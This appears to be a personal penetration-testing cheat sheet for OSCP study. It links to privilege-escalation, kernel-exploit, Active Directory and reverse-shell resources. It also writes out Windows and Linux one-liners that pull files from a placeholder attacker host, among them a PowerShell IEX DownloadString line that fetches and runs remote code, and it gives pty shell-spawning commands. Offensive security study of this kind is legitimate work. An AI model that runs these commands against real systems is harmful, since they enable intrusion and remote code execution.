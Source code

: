 # My notes

###### My cheat sheet notes.

## Python pip

1. Python2 -m pip YOUR_COMMAND

2. Python3 -m pip YOUR_COMMAND

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/shells/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my `Privesc_scripts` repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

[My Privesc Scripts](https://github.com/CalegariMindSec/Privesc_scripts)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)


### Windows PrivEsc CheatSheet

[OSCP_Vini2.ctb (sejalivre.org)](https://sejalivre.org/OSCP/index.html#)

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

### Linux PrivEsc Cheatsheet

[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

### OSCP Guide

[GitHub - rkhal101/Hack-the-Box-OSCP-Preparation: Hack-the-Box-OSCP-Preparation](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')"
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://IP:PORT/'FILE)
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Shell Spawning

[Spawning a TTY Shell (netsec.ws)](https://netsec.ws/?p=337)

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell
[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
